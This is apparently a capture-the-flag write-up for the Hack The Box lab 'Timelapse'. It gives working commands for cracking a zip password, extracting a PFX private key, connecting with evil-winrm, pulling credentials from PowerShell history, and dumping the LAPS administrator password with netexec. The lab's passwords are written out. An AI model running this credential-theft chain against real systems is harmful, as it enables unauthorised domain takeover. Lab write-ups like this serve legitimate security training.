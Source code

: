 # 📦 Timelapse

I start off by scanning open ports:

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

first i add timelaps.htb to my hosts file

Then i try conecting though RPCCLIENT anonymous but got denied, then SMB shares enum:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I download everything in the share and see some interesting stuff:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

There is a password to unzip the backup zip so i use zip2john to get the hash:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
john  --wordlist=/usr/share/wordlists/rockyou.txt ziphash.txt 
```

then i get my hash, i'm able to unzip and see the pfx file but there is also a password:

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>thuglegacy</p></figcaption></figure>

Then to extract the keys ->

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
#to see the content:
openssl pkcs12 -in legacyy_dev_auth.pfx
#to dl the key:
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
#to dl the cert:
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out key.cert
```

**`-nocerts`** → Tells OpenSSL to extract **only** the private key (skip the certificates).

**`-nodes`** → **Disables encryption** on the private key (otherwise, OpenSSL would ask for a passphrase)

**`-nokeys`** → Tells OpenSSL to extract **only** the certificate(s) (skip the private key).

Now that we have a private key i can try and use evil-winrm with --ssl:

```
evil-winrm -S -i <IP> -c key.cert -k key.pem
```

and we are able to get a foothold:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
`gci -force .` will show hidden files in a directory
{% endhint %}

Then we have to enumerate and check a powershell file that is used when you connect on multiple computers in a domain with the same account, this file will follow you as your history:

```
C:\Users\legacyy\Appdata\Roaming\Microsoft\Windows\Powershell\Psreadline
```

and in that file we find a consolehost log file ->

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV</p></figcaption></figure>

Winpeas catches this file. Now we can connect:

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After looking at our groups we can see some stuff:

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://swisskyrepo.github.io/InternalAllTheThings/active-directory/pwd-read-laps/#extract-laps-password" %}

We can see there is a netexec module for laps exploit:

```
nxc smb 10.129.227.113 -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' -M laps
nxc ldap 10.129.227.113 -u 'Administrator' -p 'D!YT07abvZ0,1Xy%Mf3$8+R8'
```

<figure><img src="../../../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (11) (1) (1).png" alt=""><figcaption></figcaption></figure>
